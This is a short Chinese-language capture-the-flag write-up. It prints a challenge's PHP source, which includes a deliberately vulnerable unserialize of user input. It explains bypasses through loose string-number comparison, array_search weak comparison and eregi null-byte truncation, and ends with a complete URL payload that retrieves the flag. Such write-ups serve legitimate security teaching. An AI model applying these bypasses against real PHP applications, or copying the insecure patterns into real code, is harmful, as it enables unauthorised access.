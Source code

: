 ﻿# php是最好的语言


## writeup

访问index.php.bak即可获取源码：
```php
<?php
$v1=0;$v2=0;$v3=0;
$a=(array)unserialize(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["param1"])?die("nope"):NULL;
    if(@$a["param1"]){
        ($a["param1"]>2017)?$v1=1:NULL;
    }
    if(is_array(@$a["param2"])){
        if(count($a["param2"])!==5 OR !is_array($a["param2"][0])) die("nope");
        $pos = array_search("nudt", $a["param2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["param2"] as $key=>$val){
            $val==="nudt"?die("nope"):NULL;
        }
        $v2=1;
    }
}
$c=@$_GET['egg'];
$d=@$_GET['fish'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
        eregi("M|n|s",$d.$c[0])?die("nope"):NULL; 
        strpos(($c[0].$d), "MyAns")?$v3=1:NULL;
    }
}
if($v1 && $v2 && $v3){
    include "flag.php";
    echo $flag;
}

?>

```
其中
* param1处可以用php比较字符串与数字时的特性绕过：“2014xxxx”>"2011"
* param2处可以用array_search的弱比较特性绕过
* eregi存在00截断漏洞可绕过

总的payload为：

```url
index.php?foo=a:2:{s:6:"param1";s:6:"2019Tx";s:6:"param2";a:5:{i:0;a:1:{i:0;i:0;}i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:0;}}&egg[1][]=1&fish=%00&egg[0]=sdasMyAns
```